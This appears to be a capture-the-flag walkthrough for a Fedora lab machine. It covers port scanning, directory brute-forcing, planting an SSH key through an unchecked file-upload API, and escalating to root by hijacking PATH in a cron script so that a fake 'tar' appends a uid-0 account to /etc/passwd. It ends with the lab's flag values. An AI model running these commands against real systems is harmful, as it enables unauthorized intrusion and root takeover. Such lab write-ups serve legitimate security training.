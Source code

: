 ```
---------------------Starting Full Scan------------------------



PORT      STATE SERVICE
21/tcp    open  ftp
25022/tcp open  unknown
33414/tcp open  unknown
40080/tcp open  unknown

Making a script scan on extra ports: 25022, 33414, 40080

PORT      STATE SERVICE VERSION
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 68:c6:05:e8:dc:f2:9a:2a:78:9b:ee:a1:ae:f6:38:1a (ECDSA)
|_  256 e9:89:cc:c2:17:14:f3:bc:62:21:06:4a:5e:71:80:ce (ED25519)
33414/tcp open  unknown
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.3 Python/3.9.13
|     Date: Fri, 01 Mar 2024 14:48:20 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   Help: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('HELP').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|     </html>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
|_http-title: My test page
|_http-server-header: Apache/2.4.53 (Fedora)
| http-methods: 
|_  Potentially risky methods: TRACE

```

The FTP on port 21 can be logged into anonymously but there is an error getting the directory listing.
SSH is running on port 25022. 
Port 33414 has a webserver running but there is nothing in the root of it. 

GoBuster it
```
gobuster dir -u http://192.168.217.249:33414 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt  -x php,txt,zip -t 150 -b '403,404' -r
```

This returns just two things
/help and /info

/help shows us these options
`"GET /info : General Info","GET /help : This listing","GET /file-list?dir=/tmp : List of the files","POST /file-upload : Upload files"]`

We can get directory listings but not view files. We can read /home/alfredo/.ssh so maybe we can write to it.

Let's generate an SSH key.
```
ssh-keygen
```
```
```

```Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/user/.ssh/id_ed25519): 
/home/user/.ssh/id_ed25519 already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/user/.ssh/id_ed25519
Your public key has been saved in /home/user/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:32jUrtkebCjhIwNneQObOPKKDcpqA2PEL7OIyK++XbU user@kalipurple
The key's randomart image is:
+--[ED25519 256]--+
|                 |
|                 |
|.     .          |
| o   . =   .     |
|. o + *.S . .    |
|o+ + =.o.= *     |
|O.+ ..oE+ = *    |
|*O...  o + = .   |
|B=Bo      o.o    |
+----[SHA256]-----+
```

```
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F file="@/home/user/.ssh/id_ed25519.pub" -F filename="/home/alfredo/.ssh/authorized_keys" http://192.168.217.249:33414/file-upload 
```

It shows us that it's not an accepted file
`{"message":"Allowed file types are txt, pdf, png, jpg, jpeg, gif"}`

Let's make it a txt and upload it
```
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F file="@/home/user/.ssh/id_rsa.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http://192.168.217.249:33414/file-upload 
HTTP/1.1 201 CREATED
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Fri, 01 Mar 2024 17:01:48 GMT
Content-Type: application/json
Content-Length: 41
Connection: close

{"message":"File successfully uploaded"}
```

This works so let's SSH into the machine
```
ssh -i /home/user/.ssh/id_ed25519 alfredo@192.168.217.249 -p 25022
```

We're in!
`[alfredo@fedora ~]$`

Check crontab - it looks like root runs a .sh file
```
[alfredo@fedora ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh
```

Tar isn't an exact path and we can write to this path so we can create our own tar that will run

```
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

CD to the restapi folder and create a .sh named tar that will add the user dbl with password `password` adding it to the users list
```
[alfredo@fedora ~]$ cd restapi
[alfredo@fedora restapi]$ pwd
/home/alfredo/restapi
[alfredo@fedora restapi]$ echo 'echo "dbl:\$1\$dbl\$HDDAaqA2syu7zGMsMXbcd0:0:0:root:/root:/bin/bash" | sudo tee -a /etc/passwd >/dev/null' > tar
[alfredo@fedora restapi]$ chmod +x tar
```

```
[alfredo@fedora restapi]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
systemd-oom:x:998:996:systemd Userspace OOM Killer:/:/sbin/nologin
systemd-timesync:x:997:995:systemd Time Synchronization:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:996:994:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
cockpit-ws:x:995:991:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:994:990:User for cockpit-ws instances:/nonexisting:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:993:989::/var/lib/setroubleshoot:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
dnsmasq:x:992:988:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
chrony:x:991:987::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-network:x:985:985:systemd Network Management:/:/usr/sbin/nologin
unbound:x:984:984:Unbound DNS resolver:/etc/unbound:/sbin/nologin
clevis:x:983:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/usr/sbin/nologin
alfredo:x:1000:1000::/home/alfredo:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
dbl:$1$dbl$HDDAaqA2syu7zGMsMXbcd0:0:0:root:/root:/bin/bash
```

SU to the user we created and get the flags
```
[alfredo@fedora restapi]$ su dbl
Password: 
[root@fedora restapi]# cat /root/proof.txt
4875baa8ab161bb8976f063ca695d421
[root@fedora restapi]# cat /home/alfredo/local.txt
9a2bb3d1dc0dfa1e82c25ac776ed37f0
```
